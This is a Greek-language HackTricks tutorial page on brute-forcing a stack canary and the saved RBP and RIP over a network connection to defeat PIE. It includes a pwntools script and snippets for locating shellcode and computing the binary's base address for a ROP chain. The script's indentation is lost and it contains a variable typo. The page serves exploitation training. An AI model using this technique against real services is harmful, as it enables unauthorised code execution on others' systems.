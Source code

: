 # Διευθύνσεις BF στη Στοίβα

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

**Αν αντιμετωπίζετε ένα δυαδικό που προστατεύεται από ένα canary και το PIE (Position Independent Executable) πιθανότατα χρειάζεστε να βρείτε έναν τρόπο να τα παρακάμψετε.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Σημειώστε ότι το **`checksec`** ενδέχεται να μην εντοπίσει ότι ένα δυαδικό προστατεύεται από ένα canary αν αυτό έχει συντακτεί στατικά και δεν είναι ικανό να αναγνωρίσει τη λειτουργία.\
Ωστόσο, μπορείτε να παρατηρήσετε χειροκίνητα αυτό αν βρείτε ότι μια τιμή αποθηκεύεται στη στοίβα στην αρχή μιας κλήσης συνάρτησης και αυτή η τιμή ελέγχεται πριν την έξοδο.
{% endhint %}

## Διευθύνσεις Brute-Force

Για να **παρακάμψετε το PIE** χρειάζεστε να **διαρρεύσετε μια διεύθυνση**. Και αν το δυαδικό δεν διαρρέει καμία διεύθυνση, το καλύτερο είναι να **δοκιμάσετε βίαια το RBP και το RIP που αποθηκεύονται στη στοίβα** στην ευάλωτη συνάρτηση.\
Για παράδειγμα, αν ένα δυαδικό προστατεύεται χρησιμοποιώντας τόσο ένα **canary** όσο και το **PIE**, μπορείτε να αρχίσετε τη βίαιη δοκιμή του canary, στη συνέχεια τα **επόμενα** 8 Bytes (x64) θα είναι το αποθηκευμένο **RBP** και τα **επόμενα** 8 Bytes θα είναι το αποθηκευμένο **RIP.**

{% hint style="success" %}
Υποθέτεται ότι η διεύθυνση επιστροφής μέσα στη στοίβα ανήκει στον κύριο κώδικα του δυαδικού, ο οποίος, αν η ευπάθεια βρίσκεται στον κώδικα του δυαδικού, συνήθως θα είναι η περίπτωση.
{% endhint %}

Για να δοκιμάσετε βίαια το RBP και το RIP από το δυαδικό μπορείτε να συμπεράνετε ότι ένα έγκυρο μαντεμένο byte είναι σωστό αν το πρόγραμμα εμφανίζει κάτι ή απλά δεν καταρρέει. Η **ίδια συνάρτηση** που παρέχεται για τη βίαιη δοκιμή του canary μπορεί να χρησιμοποιηθεί για τη βίαιη δοκιμή του RBP και του RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Το τελευταίο πράγμα που χρειάζεστε για να ξεπεράσετε το PIE είναι να υπολογίσετε **χρήσιμες διευθύνσεις από τις διευθύνσεις που διέρρευσαν**: το **RBP** και το **RIP**.

Από το **RBP** μπορείτε να υπολογίσετε **πού γράφετε το shell σας στο stack**. Αυτό μπορεί να είναι πολύ χρήσιμο για να γνωρίζετε πού θα γράψετε το string _"/bin/sh\x00"_ μέσα στο stack. Για να υπολογίσετε την απόσταση μεταξύ του διερραγμένου RBP και του shellcode σας, μπορείτε απλά να τοποθετήσετε ένα **σημείο ανακοπής μετά τη διαρροή του RBP** και να ελέγξετε **πού βρίσκεται ο κώδικας του shell σας**, έπειτα, μπορείτε να υπολογίσετε την απόσταση μεταξύ του shellcode και του RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Από τον **RIP** μπορείτε να υπολογίσετε τη **βασική διεύθυνση του δυναμικού εκτελέσιμου αρχείου (PIE binary)** το οποίο θα χρειαστείτε για να δημιουργήσετε μια **έγκυρη ROP αλυσίδα**.\
Για να υπολογίσετε τη βασική διεύθυνση, απλώς εκτελέστε `objdump -d vunbinary` και ελέγξτε τις τελευταίες διευθύνσεις αποσυναρμολόγησης:

![](<../../../.gitbook/assets/image (479).png>)

Σε αυτό το παράδειγμα μπορείτε να δείτε ότι χρειάζεται μόνο **1 Byte και μισό** για να εντοπίσετε όλο τον κώδικα, έτσι, η βασική διεύθυνση σε αυτήν την κατάσταση θα είναι η **διέρρευση του RIP αλλά να τελειώνει σε "000"**. Για παράδειγμα, αν διέρρευσετε `0x562002970ecf` η βασική διεύθυνση θα είναι `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Βελτιώσεις

Σύμφωνα με [**μερικές παρατηρήσεις από αυτήν την ανάρτηση**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), είναι δυνατόν όταν διαρρέει τις τιμές RBP και RIP, ο διακομιστής να μην καταρρέει με μερικές τιμές που δεν είναι οι σωστές και το σενάριο BF θα νομίζει ότι πήρε τις σωστές. Αυτό συμβαίνει επειδή είναι δυνατόν ότι **μερικές διευθύνσεις απλά δεν θα το σπάσουν ακόμα κι αν δεν είναι ακριβώς οι σωστές**.

Σύμφωνα με αυτήν την ανάρτηση στο blog, συνιστάται να προστεθεί μια μικρή καθυστέρηση μεταξύ των αιτημάτων προς τον διακομιστή.
